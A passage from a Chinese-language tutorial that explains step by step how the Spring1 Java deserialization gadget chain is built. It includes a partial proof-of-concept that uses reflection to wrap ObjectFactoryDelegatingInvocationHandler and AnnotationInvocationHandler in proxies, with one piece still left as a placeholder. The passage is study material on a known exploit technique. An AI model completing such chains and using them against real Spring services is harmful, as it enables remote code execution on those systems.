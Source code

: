 OK，然后开始寻找实现了`InvocationHandler`接口的实现类了。

再回头一开始我们构建的残缺POC中。为了构建`xxxxxxxxxx`中的一个代理类，Spring1的作者找到了一个实现了`InvocationHandler`的接口，同时也更好在后续中利用的类，就是`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`这个类。

![image-20250115221551265](./main.assets/image-20250115221551265.png)

当我们的`xxxxxxxxxx`中填充的是`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`这个类时，因为我们代理了`Type`和`Templates`这两个接口，所以当触发了`Templates`接口中的方法时，就会触发到这个类中的invoke方法中。

所以再次构建我们这个残缺的POC：

```java
public static void main(String[] args) throws Exception {
        
    // 创建动态代理实例，这个实例用于创建 Type和Templates 这两个接口的动态代理
    Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
    Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
    ofdihCtor.setAccessible(true);
    // 此时我们还不知道这个objectFactory应该怎么构造，所以用xxxxxxxxxx来代替
    InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(xxxxxxxxxx);
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    map.put("getType", typeTemplatesProxy);
```